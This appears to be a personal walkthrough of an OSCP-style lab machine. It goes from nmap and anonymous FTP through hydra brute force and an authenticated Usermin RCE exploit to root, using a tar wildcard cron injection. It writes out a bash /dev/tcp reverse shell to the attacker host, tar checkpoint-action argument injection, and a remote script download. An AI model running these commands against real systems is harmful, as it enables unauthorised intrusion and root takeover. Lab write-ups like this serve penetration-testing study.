





# Nmap

```bash
nmap -A -T4 -p 21,22,80,20000 192.168.165.157

# Results
21/tcp    open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 114      120          4096 Nov 02  2022 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.244
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0e:ad:d7:de:60:2b:49:ef:42:3b:1e:76:9c:77:33:85 (ECDSA)
|_  256 99:b5:48:fb:77:df:18:b0:1d:ad:e0:92:f3:e1:26:0d (ED25519)
80/tcp    open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
20000/tcp open  http    MiniServ 1.820 (Webmin httpd)
|_http-server-header: MiniServ/1.820
|_http-title: Site doesn't have a title (text/html; Charset=utf-8).
```

## FTP

```bash
ftp 192.168.165.157

#Anonymous
anonymous:anonymous

# Download all file
mget *
```

## Inspect Files

```bash
exiftool *.pdf

#Results
cassie
mark
robert

#Create users.txt Fle
```

## FTP Bruteforce

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://192.168.165.157 

#failed
# Try username:username as brute force

hydra -L users.txt -P users.txt ftp://192.168.165.157

#Results
[21][ftp] host: 192.168.165.157   login: cassie   password: cassie

#cassie:cassie
```

## FTP as cassie
```bash
ftp cassie@192.168.165.157
cassie

#Grab Local.txt
```

## Visit https://192.168.165.157:20000/

```bash
Log in as cassie:cassie

#Discovered service: Usermin 1.820
```


## Find exploit
```bash
searchsploit Usermin

#Results
Usermin 1.820 - Remote Code Execution (RCE) (Authenticated)                                                                                                                                                                                                                              | linux/webapps/50234.py

#Download Exploit
searchsploit -m 50234.py
```
## Inspect and Modify Exploit
```bash
nano 50234.py
```

```bash
# Modify listen_ip and listen_port
```

## Run exploit
```bash
python3 50234.py

#Results
python3 50234.py -u 192.168.165.157                    
/home/kali/oscp/OSCP_C/157/50234.py:82: SyntaxWarning: invalid escape sequence '\?'
  last_gets_key = re.findall("edit_key.cgi\?(.*?)'",str(key_list.content))[-2]
usage: 50234.py [-h] -u HOST -l LOGIN -p PASSWORD
50234.py: error: the following arguments are required: -l/--login, -p/--password

#Rerun
python3 50234.py -u 192.168.165.157 -l cassie -p cassie

#Shell Obtained
```
## Upgrade Shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


## Priv Esc

```bash
# Start HTTP Server with file
python -m http.server 80

#Transfer File
curl http://192.168.45.244/LinEnum.sh -o /tmp/LinEnum.sh

# Change Permissions
chmod +x /tmp/LinEnum.sh

#Run Script
/tmp/LinEnum.sh

#Found interesting Cron Job Folder `2minutes`
/etc/cron.d:                                                                                                                                                                                                                                                                                                               
total 20                                                                                                                                                                                                                                                                                                                   
drwxr-xr-x  2 root root 4096 Nov 22  2022 .                                                                                                                                                                                                                                                                                
drwxr-xr-x 99 root root 4096 Nov 22  2022 ..                                                                                                                                                                                                                                                                               
-rw-r--r--  1 root root  102 Mar 23  2022 .placeholder                                                                                                                                                                                                                                                                     
-rw-r--r--  1 root root  115 Nov 22  2022 2minutes                                                                                                                                                                                                                                                                         
-rw-r--r--  1 root root  201 Jan  8  2022 e2scrub_all         
```


## Enumerate 2minutes
```bash
cat 2minutes

#results
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```

## Cron Job Exploit to Establish Reverse Shell

```bash
# Change Directory
cd /opt/admin

# Create a reverse shell script
echo 'bash -i >& /dev/tcp/192.168.45.244/5555 0>&1' > shell.sh

#Change Permissions
chmod +x shell.sh

#  Tell tar to display a checkpoint every 1 record
echo "" > '--checkpoint=1'

#  tells tar to execute a command at each checkpoint
echo "" > '--checkpoint-action=exec=bash shell.sh'

# Wait for shell (>2 Mins)
# Shell Established
# Grab Root Flag
```
